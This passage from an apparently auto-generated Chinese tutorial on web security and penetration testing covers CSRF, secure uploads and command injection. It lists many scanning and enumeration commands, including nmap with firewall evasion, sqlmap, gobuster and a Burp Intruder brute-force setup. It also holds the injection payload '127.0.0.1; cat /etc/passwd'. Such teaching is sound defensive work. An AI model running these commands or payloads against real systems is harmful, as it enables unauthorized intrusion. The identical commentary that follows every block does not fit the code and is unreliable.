讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 8 行有效代码，包含 2 类关键结构（import、from）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.7 示例：4.1 攻击原理

该示例来自原文《4.1 攻击原理》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```text
1. 用户登录 bank.com，获取会话 Cookie
2. 用户访问恶意网站 evil.com
3. evil.com 页面包含:
   
4. 浏览器自动携带 bank.com 的 Cookie 发送请求
5. bank.com 服务器认为是合法操作
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 6 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.8 示例：4.2 CSRF 防御

该示例来自原文《4.2 CSRF 防御》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```python
# Flask-WTF CSRF Token
from flask_wtf.csrf import CSRFProtect

app = Flask(__name__)
app.config['SECRET_KEY'] = 'your-secret-key'
csrf = CSRFProtect(app)

# 模板中
# <form method="POST">
#   <input type="hidden" name="csrf_token" value="{{ csrf_token() }}">
#   ...
# </form>
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 10 行有效代码，包含 2 类关键结构（import、from）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.9 示例：4.2 CSRF 防御

该示例来自原文《4.2 CSRF 防御》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```python
# SameSite Cookie 属性
app.config.update(
    SESSION_COOKIE_SECURE=True,     # 仅 HTTPS
    SESSION_COOKIE_HTTPONLY=True,    # JS 不可读
    SESSION_COOKIE_SAMESITE='Lax'   # 限制跨站发送
)
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 6 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.10 示例：4.2 CSRF 防御

该示例来自原文《4.2 CSRF 防御》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```python
# 验证 Origin/Referer 头
from flask import request, abort

@app.before_request
def check_origin():
    if request.method in ('POST', 'PUT', 'DELETE'):
        origin = request.headers.get('Origin', '')
        allowed = ['https://www.fandex.local', 'https://fandex.local']
        if origin not in allowed:
            abort(403)
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 9 行有效代码，包含 4 类关键结构（def、import、from、if）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.11 示例：5.2 安全上传实现

该示例来自原文《5.2 安全上传实现》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```python
import os
import uuid
from pathlib import Path
from flask import request, jsonify

ALLOWED_EXTENSIONS = {'jpg', 'jpeg', 'png', 'gif', 'pdf'}
MAX_FILE_SIZE = 5 * 1024 * 1024  # 5MB

def allowed_file(filename):
    ext = filename.rsplit('.', 1)[-1].lower()
    return ext in ALLOWED_EXTENSIONS

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file'}), 400

    file = request.files['file']

    # 1. 检查文件扩展名
    if not allowed_file(file.filename):
        return jsonify({'error': 'File type not allowed'}), 400

    # 2. 检查文件大小
    file.seek(0, os.SEEK_END)
    size = file.tell()
    file.seek(0)
    if size > MAX_FILE_SIZE:
        return jsonify({'error': 'File too large'}), 400

    # 3. 重命名文件（防止路径穿越）
    ext = file.filename.rsplit('.', 1)[-1].lower()
    safe_name = f"{uuid.uuid4().hex}.{ext}"

    # 4. 保存到 Web 根目录外
    upload_dir = '/data/uploads'
    file.save(os.path.join(upload_dir, safe_name))

    return jsonify({'filename': safe_name}), 200
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 30 行有效代码，包含 5 类关键结构（def、import、from、if、return）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.12 示例：6.1 命令注入

该示例来自原文《6.1 命令注入》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```python
#  不安全：直接拼接用户输入
import os
def ping_host(host):
    os.system(f"ping -c 3 {host}")  # 危险！
    # 攻击: host = "127.0.0.1; cat /etc/passwd"

#  安全：使用 subprocess + 参数列表
import subprocess
def ping_host_safe(host):
    # 输入验证
    if not re.match(r'^\d{1,3}(\.\d{1,3}){3}$', host):
        raise ValueError("Invalid IP address")
    result = subprocess.run(
        ['ping', '-c', '3', host],
        capture_output=True, text=True, timeout=10
    )
    return result.stdout
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 16 行有效代码，包含 4 类关键结构（def、import、if、return）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.13 示例：7.1 标准流程

该示例来自原文《7.1 标准流程》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```text
1. 前期交互 → 确定范围、规则、目标
2. 信息收集 → 被动/主动侦察
3. 威胁建模 → 识别攻击面和攻击路径
4. 漏洞分析 → 扫描、验证、分类
5. 渗透攻击 → 利用漏洞获取访问权限
6. 后渗透   → 权限提升、横向移动、数据获取
7. 报告撰写 → 发现、风险评级、修复建议
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 7 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.14 示例：7.2 信息收集

该示例来自原文《7.2 信息收集》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 被动信息收集
whois example.com                     # 域名注册信息
dig example.com ANY                   # DNS 记录
theHarvester -d example.com -b all    # 邮箱/子域名收集

# 主动信息收集
nmap -sn 192.168.1.0/24              # 主机发现
nmap -sV -sC -p- 192.168.1.1        # 全端口服务识别
nmap -O 192.168.1.1                  # 操作系统识别
nmap --script vuln 192.168.1.1       # 漏洞扫描脚本
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 9 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.15 示例：8.2 常用命令

该示例来自原文《8.2 常用命令》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 快速扫描常用端口
nmap -F 192.168.1.0/24

# 全端口扫描 + 服务版本 + 默认脚本
nmap -sV -sC -p- -T4 192.168.1.1

# 指定端口扫描
nmap -p 22,80,443,3306,8080 192.168.1.1

# 操作系统检测
nmap -O --osscan-guess 192.168.1.1

# 漏洞扫描
nmap --script=vulscan/vulscan.nse 192.168.1.1

# 绕过防火墙
nmap -f -D RND:10 --data-length 32 192.168.1.1

# 输出结果
nmap -sV -oX scan_results.xml 192.168.1.0/24
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 14 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.16 示例：9.2 常用工作流

该示例来自原文《9.2 常用工作流》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```text
1. 配置浏览器代理 → 127.0.0.1:8080
2. 开启 Intercept → 捕获请求
3. 发送到 Repeater → 手动测试参数
4. 发送到 Intruder → 标记攻击点，设置 Payload
5. 运行 Scanner → 自动扫描漏洞
6. 分析结果 → 验证漏洞、编写报告
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 6 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.17 示例：9.3 Intruder 暴力破解示例

该示例来自原文《9.3 Intruder 暴力破解示例》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```text
攻击类型: Sniper（单参数）/ Pitchfork（多参数并行）/ Cluster Bomb（多参数组合）

目标请求:
POST /login HTTP/1.1
username=§admin§&password=§password§

Payload 设置:
- username: 常用用户名字典
- password: 常用密码字典

Grep-Match:
- 匹配 "Login successful" → 成功
- 匹配 "Invalid credentials" → 失败
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 10 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.18 示例：信息收集

该示例来自原文《信息收集》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 查询域名所有 DNS 记录
dig any example.com
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.19 示例：信息收集

该示例来自原文《信息收集》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 使用 subfinder 枚举子域名
subfinder -d example.com -o subdomains.txt
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.20 示例：信息收集

该示例来自原文《信息收集》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 测试 DNS 区域传送是否允许
dig axfr @ns1.example.com example.com
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.21 示例：信息收集

该示例来自原文《信息收集》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 查询域名注册信息
whois example.com
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.22 示例：信息收集

该示例来自原文《信息收集》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 使用 Google Hacking 查找敏感信息
site:example.com intitle:"index of" -inurl:(html|php)
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.23 示例：端口扫描

该示例来自原文《端口扫描》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 扫描目标开放端口与服务版本
nmap -sV 192.168.1.10
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.24 示例：端口扫描

该示例来自原文《端口扫描》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 快速扫描常用端口
nmap -T4 -F 192.168.1.10
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.25 示例：端口扫描

该示例来自原文《端口扫描》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 扫描所有 65535 个端口
nmap -p- -T4 192.168.1.10
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.26 示例：端口扫描

该示例来自原文《端口扫描》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 扫描常用 UDP 端口
sudo nmap -sU --top-ports 100 192.168.1.10
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.27 示例：端口扫描

该示例来自原文《端口扫描》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 识别目标操作系统
sudo nmap -O 192.168.1.10
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.28 示例：端口扫描

该示例来自原文《端口扫描》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 使用 nmap 漏洞脚本扫描
nmap --script vuln 192.168.1.10
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.29 示例：服务枚举

该示例来自原文《服务枚举》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 枚举 SMB 共享与用户信息
enum4linux -a 192.168.1.10
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.30 示例：服务枚举

该示例来自原文《服务枚举》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 查看 NFS 导出的目录
showmount -e 192.168.1.10
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.31 示例：服务枚举

该示例来自原文《服务枚举》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 使用 nmap SSH 脚本枚举
nmap --script ssh-* -p 22 192.168.1.10
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.32 示例：服务枚举

该示例来自原文《服务枚举》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 枚举 SNMP 信息
snmpwalk -c public -v1 192.168.1.10
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.33 示例：服务枚举

该示例来自原文《服务枚举》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 枚举 LDAP 目录信息
ldapsearch -x -H ldap://192.168.1.10 -b "dc=example,dc=com"
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.34 示例：Web 应用测试

该示例来自原文《Web 应用测试》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 使用 gobuster 爆破 Web 目录
gobuster dir -u https://example.com -w /usr/share/wordlists/dirb/common.txt
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.35 示例：Web 应用测试

该示例来自原文《Web 应用测试》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 爆破子域名
gobuster dns -d example.com -w subdomains.txt
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.36 示例：Web 应用测试

该示例来自原文《Web 应用测试》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 使用 Nikto 扫描 Web 漏洞
nikto -h https://example.com
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.37 示例：Web 应用测试

该示例来自原文《Web 应用测试》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 使用 sqlmap 测试 SQL 注入
sqlmap -u "https://example.com/page?id=1" --dbs
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.38 示例：Web 应用测试

该示例来自原文《Web 应用测试》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 使用 dalfox 检测 XSS 漏洞
dalfox url "https://example.com/search?q=test"
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.39 示例：Web 应用测试

该示例来自原文《Web 应用测试》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 扫描 WordPress 站点
wpscan --url https://example.com --enumerate u
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.40 示例：漏洞利用

该示例来自原文《漏洞利用》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
# 在 exploitdb 中搜索漏洞利用
searchsploit apache 2.4
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 2 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.41 示例：漏洞利用

该示例来自原文《漏洞利用》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```bash
